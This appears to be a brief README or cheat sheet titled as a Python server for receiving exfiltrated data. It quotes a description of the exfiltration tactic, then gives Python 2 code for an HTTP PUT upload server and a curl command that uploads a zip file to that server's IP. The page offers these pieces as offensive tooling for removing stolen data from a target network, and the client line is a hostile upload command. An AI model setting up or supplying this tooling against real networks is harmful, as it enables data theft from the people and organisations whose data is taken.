# Python Server to Receive Exfiltrated Data

### Data Exfiltration

The adversary is trying to steal data.

Exfiltration consists of techniques that adversaries may use to steal data from your network. Once they’ve collected data, adversaries often package it to avoid detection while removing it. This can include compression and encryption. Techniques for getting data out of a target network typically include transferring it over their command and control channel or an alternate channel and may also include putting size limits on the transmission.



### Server Code

```python
#!/usr/bin/python

import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))

if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```



### Client Code

```bash
Curl IP --upload-file file.zip
```

